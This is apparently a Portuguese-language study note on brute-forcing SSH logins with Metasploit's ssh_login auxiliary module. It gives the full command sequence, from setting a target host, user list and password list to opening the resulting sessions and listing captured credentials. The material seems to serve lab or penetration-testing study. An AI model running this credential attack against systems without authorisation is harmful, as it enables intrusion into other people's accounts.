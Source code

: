 <h2 align="center">Ataques de forca bruta</h2>

Suponhamos que a gente queira fazer um brute force no [[SSH]] .

Podemos limitar o tipo da nossa busca para o modo auxiliar

```ad-info
Se voce nao souber oque o modulo faz utilize o comando `info`
```

```
search type:auxiliary ssh

# utilizando o modulo
use auxiliary/scanner/ssh/ssh_login
show options
```

Uma coisa ao se atentar eh o campo `REQUIRED`

```sh
set RHOSTS 172.16.1.7
set THREADS 10
set USER_FILE /opt/users.txt
set PASS_FILE /opt/pass.txt
set VERBOSE true
show options
run
```

Ver sessoes ativas do brute : `sessions`
Acessar sessao:

```sh
sessions
sessions -i <ID>
```

Ver credenciais da sessao ativa:

```sh
creds
```